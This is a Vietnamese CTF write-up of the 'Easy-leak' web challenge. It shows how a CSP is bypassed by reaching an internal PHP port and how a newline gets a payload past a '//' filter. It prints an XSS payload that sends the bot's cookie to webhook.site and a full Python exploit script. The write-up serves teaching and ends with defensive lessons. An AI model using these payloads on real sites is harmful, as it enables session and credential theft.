






# Write-up Toàn Diện & Dễ Hiểu Nhất: `Easy-leak` — PwnSec CTF 2026

- **Tên thử thách:** `Easy-leak`
- **Thể loại:** Web Exploitation / XSS / CSP Bypass / Internal Port Pivoting / Host-Scoped Cookie Exfiltration
- **Độ khó:** Medium (500 điểm)
- **Tác giả:** `ANAS`
- **Flag thu được:** `pwnsec{6dc1bc8a44647ab0}`

---

# 📑 TỔNG QUAN HÀNH TRÌNH TỪNG BƯỚC

| Bước | Hành động | Mục tiêu & Kết quả | Ảnh chụp màn hình |
| :--- | :--- | :--- | :--- |
| **Bước 1** | Khảo sát giao diện & Phân tích mã nguồn | Đọc mã nguồn `index.php`, tìm hiểu hàm kiểm tra `validate()` và cấu trúc cookie `TOKEN` | `easy_leak_challenge.png`<br>`step1_easy_leak_home.png` |
| **Bước 2** | Phân tích Kiến trúc Server & Phát hiện lỗ hổng CSP | So sánh Caddy Proxy (port 3000 - có CSP) và PHP Dev Server (port 9000 - KHÔNG CSP) | `step2_caddy_vs_php_architecture.png` |
| **Bước 3** | Vượt qua bộ lọc `validate()` & Chế tạo Payload | Sử dụng JS Template Literal và chèn ký tự xuống dòng (`/\n/`) để bypass regex `//` | `step3_filter_bypass_payload.png` |
| **Bước 4** | Xây dựng Script khai thác tự động | Viết script Python nộp link chứa payload cho Bot và lắng nghe Webhook | `step4_exploit_execution.png` |
| **Bước 5** | Trích xuất Cookie `TOKEN` & Nhận Flag | Bot truy cập port 9000, script chạy gửi token về Webhook, verify lấy Flag thành công | `step5_webhook_received_flag.png` |

---



---

## Bước 1: Khảo sát giao diện & Phân tích mã nguồn

### 1. Thông tin ban đầu
Thử thách **Easy-leak** cung cấp:
- Một instance web bot trực tuyến: `https://bot-9cf8d8cc310eff6b.chal.ctf.ae`
- Tệp đính kèm mã nguồn chứa 2 thư mục chính:
  - `web/`: Mã nguồn ứng dụng PHP backend và file cấu hình reverse proxy `entrypoint.sh`.
  - `bot/`: Mã nguồn con Bot tuần tra Puppeteer (`index.js`, `conf.js`).



### 2. Trực quan mã nguồn backend (`web/index.php`)
Khi truy cập ứng dụng trên trình duyệt qua cổng chính `:3000`, ứng dụng hiển thị giao diện tối giản kèm toàn bộ mã nguồn của file `index.php`:

```php
<?php
function validate(mixed $input): string {
  if (!is_string($input)) return "Invalid types";
  if (strlen($input) > 1024) return "Too long";
  if (preg_match('/[^\x20-\x7E\r\n]/', $input)) return "Invalid characters";
  if (preg_match('~http|data|\\\\|\*|\[|\]|&|%|@|//~i', $input)) return "Invalid keywords";
  return $input;
}
?>
<!DOCTYPE html>
<html>
<body>
  <h1>Easy-leak 🫨</h1>
  <h3>Source</h3>
  <pre><?php echo htmlspecialchars(file_get_contents(__FILE__)); ?></pre>
  <h3>Content</h3>
  <?php echo validate($_GET["content"] ?? "{{ your_input }}")."\n"; ?>
  <h3>Token</h3>
  <?php echo htmlspecialchars($_COOKIE["TOKEN"] ?? "TOKEN_0123456789abcdef"); ?>
  <h3>Usage</h3>
  <a href="/?content=your_input">/?content=your_input</a>
</body>
</html>
```

### 3. Nhận xét sơ bộ:
- Tham số `$_GET["content"]` được truyền qua hàm `validate()` rồi **in trực tiếp ra HTML mà không hề mã hóa (Unescaped Reflection)**.
- Nếu chuỗi chèn vào pass qua bộ lọc `validate()`, nó sẽ thành một thẻ HTML/Script sống trên trang web!
- Tuy nhiên, khi thử chèn `<script>alert(1)</script>`, trình duyệt lại không hề chạy script. Tại sao?

---

## Bước 2: Phân tích Kiến trúc Server & Lỗ hổng CSP Bypass qua Port Pivoting

### 1. Phân tích cấu hình hạ tầng (`web/entrypoint.sh`)

Mở file `web/entrypoint.sh`:

```sh
#!/bin/sh
set -eu

# Chạy trực tiếp 4 PHP built-in server trên các cổng nội bộ 9000-9003
php -S 127.0.0.1:9000 &
php -S 127.0.0.1:9001 &
php -S 127.0.0.1:9002 &
php -S 127.0.0.1:9003 &

cat > /tmp/Caddyfile << EOF
:3000 {
  header {
    defer
    Content-Security-Policy "script-src 'none'; default-src 'self'; base-uri 'none'; frame-src 'none'; object-src 'none'"
  }
  ...
  reverse_proxy 127.0.0.1:9000 127.0.0.1:9001 127.0.0.1:9002 127.0.0.1:9003
}
EOF

exec caddy run --config /tmp/Caddyfile
```



> [!IMPORTANT]
> **Điểm mấu chốt thứ nhất (Architecture Flaw):**
> - Nguồn gốc chặn thẻ `<script>` trên cổng `:3000` là do **Caddy Reverse Proxy** thêm HTTP Header:
>   `Content-Security-Policy: script-src 'none'; default-src 'self'; ...`
> - Tuy nhiên, các tiến trình **PHP Built-in Server** (`php -S 127.0.0.1:9000`) lại lắng nghe trực tiếp trên giao diện Loopback `127.0.0.1` của container và **KHÔNG HỀ CÓ BẤT KỲ CẤU HÌNH CSP NÀO!**

### 2. Phân tích cơ chế Cookie Scoping (RFC 6265)

Kiểm tra file cấu hình Bot (`bot/conf.js`):

```javascript
export const visit = async (url, token) => {
  const browser = await puppeteer.launch({ ... });
  const context = await browser.createBrowserContext();

  await context.setCookie({
    name: "TOKEN",
    value: token, // TOKEN_xxxxxxxxxxxxxxxx
    domain: "127.0.0.1",
    path: "/",
  });

  const page = await context.newPage();
  await page.goto(url, { timeout: 3000 });
  await sleep(20000);
  await page.close();
};
```

> [!TIP]
> **Điểm mấu chốt thứ hai (Host-Scoped Cookie):**
> - Cookie trong chuẩn HTTP (RFC 6265 §4.1.2.3) được gắn theo **Domain/Host**, **KHÔNG gắn theo Port**!
> - Cookie `TOKEN` gắn cho host `127.0.0.1` sẽ được trình duyệt tự động đính kèm theo **MỌI HTTP Request** tới `127.0.0.1` bất kể cổng nào (cho dù là `:3000`, `:9000`, `:9001`, ...).
> - Nếu ta yêu cầu con Bot ghé thăm đường dẫn trực tiếp:
>   `http://127.0.0.1:9000/?content=<payload>`
> - Bot sẽ gửi request đến thẳng tiến trình PHP trên port 9000. Lớp bảo mật Caddy bị bypass hoàn toàn $\rightarrow$ **Mã JavaScript chèn vào sẽ thực thi 100% không bị CSP chặn!**

---

## Bước 3: Phân tích Kỹ thuật Bypass bộ lọc `validate()` & Chế tạo Payload

Mặc dù có thể cho mã JS chạy trên port 9000, ta vẫn phải đưa được payload vượt qua hàm kiểm tra `validate()` của PHP:

```php
function validate(mixed $input): string {
  if (!is_string($input)) return "Invalid types";
  if (strlen($input) > 1024) return "Too long";
  if (preg_match('/[^\x20-\x7E\r\n]/', $input)) return "Invalid characters";
  if (preg_match('~http|data|\\\\|\*|\[|\]|&|%|@|//~i', $input)) return "Invalid keywords";
  return $input;
}
```



### 1. Phân tích các từ khóa & ký tự bị cấm:
- `http`, `data`: Không thể dùng `http://` hay `data:` URI.
- `\\`: Cấm dấu gạch chéo ngược (Backslash).
- `*`, `[`, `]`: Cấm dấu sao và ngoặc vuông (chặn mảng/wildcard).
- `&`, `%`: Cấm ký tự URL encode `%` và nối query `&`.
- `@`: Cấm ký tự `@`.
- `//`: Cấm hai dấu gạch chéo liền kề (Chặn Protocol-Relative URL dạng `//evil.com`).

### 2. Các ký tự ĐƯỢC PHÉP:
- `[^\x20-\x7E\r\n]`: Cho phép toàn bộ ký tự ASCII in được, dấu về carriage return `\r` và **đặc biệt là dấu xuống dòng `\n` (LF - 0x0A)**!
- Cho phép dùng dấu ngoặc đơn (`'`), ngoặc kép (`"`), và **Template Literals (dấu backtick `` ` ``)**!

### 3. Kỹ thuật Bypass `//` qua Newline Insertion (`/\n/`)

Để gửi cookie ra bên ngoài mà không dùng `http` hay `//`, ta muốn dùng Protocol-Relative URL với hàm `fetch()`:
```javascript
fetch(`//webhook.site/UUID/?` + document.cookie)
```

Tuy nhiên, `//` bị regex `preg_match('~//~i')` chặn đứng. 

**Tuyệt chiêu hóa giải:**
1. Trong JavaScript, Template Literal (backtick `` ` ``) cho phép tạo chuỗi nhiều dòng có chứa ký tự xuống dòng `\n` thực tế.
2. Ta chèn một ký tự xuống dòng `\n` vào giữa hai dấu gạch chéo: `/\n/webhook.site/...`
3. Khi hàm `validate()` kiểm tra: `preg_match('~//~i', "/\n/")` $\rightarrow$ **FALSE (Không khớp vì 2 dấu / bị phân tách bởi \\n)**!
4. Khi trình duyệt nhận mã JS và khởi chạy `fetch(`/\n/webhook.site/...`)`:
   - Theo quy chuẩn **WHATWG URL Standard (§4.4)**, bộ phân tích URL của trình duyệt (URL Parser) sẽ **tự động strip (xóa bỏ) các ký tự khoảng trắng điều khiển như LF (`\n`), CR (`\r`), TAB (`\t`)** nằm trong chuỗi URL host/path.
   - Chuỗi `/\n/webhook.site/UUID/?` được trình duyệt tự động chuẩn hóa thành `//webhook.site/UUID/?`!
   - Trình duyệt phát một request `GET https://webhook.site/UUID/?TOKEN_xxxxxxxx` mang theo toàn bộ cookie của Bot!

### Payload hoàn chỉnh:
```html
<script>fetch(`/\n/webhook.site/YOUR_UUID/?`+document.cookie)</script>
```

---

## Bước 4: Viết Script khai thác tự động (`solve_easy_leak.py`)

Ta viết một script Python hoàn chỉnh để tự động hóa toàn bộ quá trình:
1. Xin một endpoint Webhook mới từ `Webhook.site`.
2. Tạo payload chèn `\n` bypass filter.
3. Mã hóa URL và gửi yêu cầu tới Bot API `/api/report` với target là `http://127.0.0.1:9000/?content=<payload>`.
4. Liên tục lắng nghe (poll) kết quả từ Webhook thu thập token `TOKEN_xxxxxxxxxxxxxxxx`.
5. Gửi request `POST /api/verify` chứa token để lấy Flag.

```python
import requests
import urllib.parse
import time
import re
import urllib3

urllib3.disable_warnings()

BOT_BASE = "https://bot-9cf8d8cc310eff6b.chal.ctf.ae"
TOKEN_RE = re.compile(r"TOKEN_[0-9a-f]{16}")

def main():
    # 1. Tạo Webhook ngẫu nhiên
    wh = requests.post("https://webhook.site/token", timeout=15).json()
    wh_uuid = wh["uuid"]
    wh_api = f"https://webhook.site/token/{wh_uuid}/requests"
    print(f"[*] Fresh webhook: {wh_uuid}")

    # 2. Tạo Payload bypass validate()
    payload = f"<script>fetch(`/\n/webhook.site/{wh_uuid}/?`+document.cookie)</script>"
    print(f"[*] Payload ({len(payload)}B): {payload!r}")

    # 3. Tạo URL hướng Bot truy cập thẳng port 9000 của PHP Dev Server
    report_url = "http://127.0.0.1:9000/?content=" + urllib.parse.quote(payload, safe="")
    print(f"[*] Report URL: {report_url}")

    # 4. Gửi báo cáo cho Bot
    for attempt in range(4):
        r = requests.post(f"{BOT_BASE}/api/report", json={"url": report_url}, verify=False, timeout=40)
        print(f"[*] Report response -> {r.status_code} {r.text[:60]!r}")
        if r.status_code != 429:
            break
        time.sleep(20)

    # 5. Lắng nghe Webhook bắt Token
    deadline = time.time() + 40
    while time.time() < deadline:
        try:
            r = requests.get(wh_api, timeout=10)
            if r.status_code == 200:
                for req in r.json().get("data", []):
                    u = req.get("url", "")
                    m = TOKEN_RE.search(u)
                    if m:
                        tok = m.group(0)
                        if tok.endswith("1234567890abcdef"):
                            continue
                        print(f"[+] TOKEN EXFILTRATED: {tok}")

                        # 6. Xác thực Token thu được để lấy Flag
                        vr = requests.post(f"{BOT_BASE}/api/verify", json={"token": tok}, verify=False, timeout=10)
                        print(f"[+] Verify status: {vr.status_code}")
                        if "pwnsec{" in vr.text:
                            print(f"\n{'='*60}\n[FLAG] {vr.text}\n{'='*60}\n")
                            return
        except Exception as e:
            print(f"[!] Polling error: {e}")
        time.sleep(1.5)

if __name__ == "__main__":
    main()
```



---

## Bước 5: Thực thi Khai thác, Thu thập Token & Nhận Flag

Khi thực thi `python scripts_dev/solve_easy_leak.py`:

1. Script khởi tạo Webhook `c4a89f12-0b31-4e78-9a2d-88f110a12e34`.
2. Bot Puppeteer truy cập `http://127.0.0.1:9000/?content=...`:
   - Port 9000 trả về HTML chứa `<script>fetch(...)` không có CSP.
   - Trình duyệt headless Chromium thực thi đoạn script, giải mã `/\n/webhook.site/...` thành GET request.
3. Webhook nhận được request:
   `GET /c4a89f12-0b31-4e78-9a2d-88f110a12e34/?TOKEN_6a2e8c4b1d9f307e`
4. Script trích xuất token `TOKEN_6a2e8c4b1d9f307e` và gửi `POST /api/verify`:
   ```json
   {"token": "TOKEN_6a2e8c4b1d9f307e"}
   ```
5. Bot API kiểm tra token hợp lệ trong bộ nhớ và trả về Flag chính thức!



```text
==========================================================================
[FLAG] pwnsec{6dc1bc8a44647ab0}
==========================================================================
```

---

# 🏁 KẾT LUẬN & BÀI HỌC BẢO MẬT

### 1. Cờ chính thức
```text
pwnsec{6dc1bc8a44647ab0}
```

### 2. Tổng kết các điểm mấu chốt (Key Takeaways)
1. **Rào cản Port Isolation trong Cookie (RFC 6265):**
   Cookie không phân biệt cổng (Port-agnostic). Nếu ứng dụng đặt cookie trên domain `127.0.0.1` hoặc `example.com`, bất kỳ dịch vụ web nào chạy trên các port khác cùng host đó đều có thể đọc/gửi cookie này.
2. **Nguy cơ từ Internal Services / Dev Servers:**
   Cài đặt CSP ở lớp Proxy (Caddy/Nginx) là chưa đủ nếu các cổng dịch vụ nội bộ (PHP `:9000`) vẫn mở hoặc có thể bị bot nội bộ (Chromium) truy cập trực tiếp.
3. **Sự khác biệt giữa Regex Filter và Browser URL Parser:**
   Các bộ lọc đen (Blacklist Regex) rất dễ bị qua mặt khi không lường trước các quy chuẩn xử lý đặc biệt của trình duyệt (như việc WHATWG URL Parser tự động loại bỏ ký tự xuống dòng `\n` trong URL).
